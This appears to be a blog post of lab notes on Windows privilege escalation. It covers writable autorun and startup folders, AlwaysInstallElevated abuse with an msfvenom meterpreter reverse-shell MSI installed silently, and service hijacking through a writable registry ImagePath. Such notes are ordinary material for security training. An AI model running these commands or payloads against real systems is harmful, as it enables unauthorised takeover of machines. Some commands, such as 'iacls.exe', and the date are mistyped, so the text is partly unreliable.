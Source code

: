 ```yaml
---
layout: post
title: "Windows PrivEsc"
date:   2020-23-16 10:00:00
---
```

Here some of classic examples of windows priv esc (from Windows PrivEsc Arena/TCM)

# Windows - Accesschk
Accesschk is a useful console program for viewing the permissions on files, registry keys, services...
By combining the option:
{% highlight bash %}
-w : write access
-u : supress errors
-v : verbose
{% endhighlight %}
You can find directories in which you have write access with elevated privileges.

# Windows - Autorun
Autorun or Startup programs are services managed by the Service Manager
{% highlight bash %}
C:\Program Files\Autorun Program
{% endhighlight %}
If the permission for Everyone is FILE_ALL_ACCESS, so you just need to drop your program and wait for the admin to log in.

# Windows - Startup
This is the same thing as before, checking ACL permission:
{% highlight bash %}
iacls.exe C:\ProgramData\Microsoft\Windows\Start Menu\Prgrams\Startup
{% endhighlight %}
If the output is on full access (F) for BUILTIN\Users, then drop your program to do a reverse shell.
The target need to be logon as Administrator for the privilege access.

# Windows - Always Installed Elevated
One good way to know is the Installed Elevated feature is enable is to do:

<img src="{{ site.baseurl }}/assets/img/vulnuniversity/alwaysinstalled.png">
{% highlight bash %}
HKLM: H_KEY_Local_Machine
HKCU: H_KEY_Current_User
{% endhighlight %}
It represents the configuration related to the local machine and to the current user.

So what you need to do is generate a msi package:
{% highlight bash %}
msfvenom -p windows/meterpreter/reverse_tcp lhost=[your ip] -f msi -o setup.msi
{% endhighlight %}

And on the Windows machine execute it in background:
{% highlight bash %}
msiexec /quiet /qn /i C:\temp\setup.msi
/qn: no UI
/i: normal installation
/quiet: quiet mode (no user interaction)
{% endhighlight %}

# Windows Registry
In order to verify the fullControl privilege on the services, with powershell you can check:
{% highlight bash %}
Get-Acl -Path HKLM:\SYSTEM\CurrentControlSet\services\regsvc | fl
{% endhighlight %}
Should display: NT AUTHORITY\INTERACTIVE
That means you can create your custom service, replace the original one and execute it:
{% highlight bash %}
reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /d c:\temp\service.exe /f
/v ImagePath: path of the service (this is the value)
/d for the data of the value
/f  add the registry key without prompting for confirmation
{% endhighlight %}
And then you can execute your service:
{% highlight bash %}
sc start regsvc
{% endhighlight %}
<img src="{{ site.baseurl }}/assets/img/vulnuniversity/services1.png">
<img src="{{ site.baseurl }}/assets/img/vulnuniversity/services2.png">

